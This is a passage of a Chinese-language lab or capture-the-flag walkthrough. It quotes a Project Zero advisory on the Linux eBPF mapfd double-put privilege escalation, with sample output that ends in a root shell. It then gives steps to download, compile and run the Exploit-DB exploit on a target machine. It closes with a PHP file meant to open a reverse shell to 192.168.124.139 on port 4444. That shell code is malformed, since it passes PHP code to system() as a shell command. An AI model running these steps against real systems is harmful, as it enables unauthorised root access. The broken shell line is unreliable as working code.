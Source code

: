 ```
would be to use the userfaultfd() syscall.)

writev() calls do_writev(), which looks up the struct file * corresponding to
the file descriptor number and then calls vfs_writev(). vfs_writev() verifies
that the target file is writable, then calls do_readv_writev(), which first
copies the struct iovec from userspace using import_iovec(), then performs the
rest of the write operation. Because import_iovec() performs a userspace memory
access, it may have to wait for pages to be faulted in - and in this case, it
has to wait for the attacker-owned FUSE filesystem to resolve the pagefault,
allowing the attacker to suspend code execution in the kernel at that point
arbitrarily.

An exploit that puts all this together is in exploit.tar. Usage:

user@host:~/ebpf_mapfd_doubleput$ ./compile.sh
user@host:~/ebpf_mapfd_doubleput$ ./doubleput
starting writev
woohoo, got pointer reuse
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.
suid file detected, launching rootshell...
we have root privs now...
root@host:~/ebpf_mapfd_doubleput# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),999(vboxsf),1000(user)

This exploit was tested on a Ubuntu 16.04 Desktop system.

Fix: https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/commit/?id=8358b02bf67d3a5d8a825070e1aa73f25fb2e4c7


Proof of Concept: https://bugs.chromium.org/p/project-zero/issues/attachment?aid=232552
Exploit-DB Mirror: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

提示有exp的地址，下载

```
https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

解压上传到靶机目录，解压

```
tar -xf exploit.tar
cd ebpf_mapfd_doubleput_exploit
./compile.sh
```

先反弹一下交互形的shell  
创建一个phpshell.php文件，写入

```
<?php
system("$sock=fsockopen(\"192.168.124.139\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");");
?>
```
